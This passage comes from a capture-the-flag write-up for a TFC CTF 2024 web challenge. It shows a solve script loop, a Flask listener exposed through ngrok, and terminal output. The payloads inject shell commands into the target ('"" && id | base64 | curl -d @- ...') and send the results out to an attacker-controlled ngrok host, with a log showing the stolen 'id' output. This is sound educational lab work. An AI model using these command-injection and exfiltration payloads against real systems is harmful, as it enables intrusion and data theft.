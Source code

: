 ```python
        while True:
            command = input('$ ')
            solve(attackerUrl, challengeBaseUrl, command)
    except KeyboardInterrupt:
        print('\n[*] Bye!')
```

- Run `app.py` to start our Flask web application

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:56:46(HKT)]
└> python3 app.py
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.69.96.69:80
[...]
```

- Port forwarding our Flask web application

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:56:26(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://2322-{REDACTED}.ngrok-free.app -> http://localhost:80
[...]
```

- Run the `solve.py`

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|16:02:34(HKT)]
└> python3 solve.py
$ id
[*] Sending payload: "" && id | base64 | curl -d @- https://2322-{REDACTED}.ngrok-free.app/ #
[*] Final URL: data://text@localhost/plain,IiI[...]
$ 
```

- Result can be seen in our `app.py` log

```shell
[+] We successfully received a POST body data:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
127.0.0.1 - - [05/Aug/2024 16:02:58] "POST / HTTP/1.1" 200 -
```

Let's get the flag!

```shell
$ ls -lah /
[*] Sending payload: "" && ls -lah / | base64 | curl -d @- https://2322-{REDACTED}.ngrok-free.app/ #
[*] Final URL: data://text@localhost/plain,IiI[...]
```
